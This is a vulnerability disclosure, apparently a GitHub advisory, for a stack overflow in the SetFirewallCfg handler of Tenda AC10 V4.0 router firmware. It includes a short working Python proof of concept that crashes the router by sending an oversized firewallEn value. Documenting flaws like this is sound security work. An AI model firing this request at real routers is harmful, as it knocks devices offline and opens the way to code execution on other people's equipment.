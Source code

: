# Tenda Router Vulnerability on SetFirewallCfg function

> vendor:Tenda
>
> product:AC10
>
> version:v4.0 V16.03.10.13 
>
> type:Stack Overflow  

## Vulnerability Description

Tenda AC10V4.0 V16.03.10.13 were discovered to contain a stack overflow via the `firewallEn` parameter in the `SetFirewallCfg` function.

## Vulnerability Details

In function  `SetFirewallCfg`  line 15, it reads in a user-provided parameter `firewallEn`, and the variable is passed to the function `strcpy` in line 18 without any length check, which may lead to overflow of the stack-based buffer. As a result, by requesting the page, an attacker can easily execute a **denial of service** attack or **remote code execution**.

![image-20231004163258632](assets/setFirewallCfg_code.png)

## Recurring vulnerabilities and POC

Run this poc and you will see the service crash. The service will keep loading until it crashes.

```
import requests

ip = '192.168.0.1'
headers = {
    'Host': ip,
    'Accept': '*/*',
    'X-Requested-With': 'XMLHttpRequest',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36',
    'Content-Type': 'application/x-www-form-urlencoded; charset=UTF-8',
    'Accept-Language': 'zh-CN,zh;q=0.9,en;q=0.8',
    'Connection': 'close',
}
data = '1'*1000
data = {
    'firewallEn': data,
}

response = requests.get(
    f'http://{ip}/goform/SetFirewallCfg',
    headers=headers,
    data=data,
    verify=False,
)
```

![image-20231004105735359](assets/crash3.png)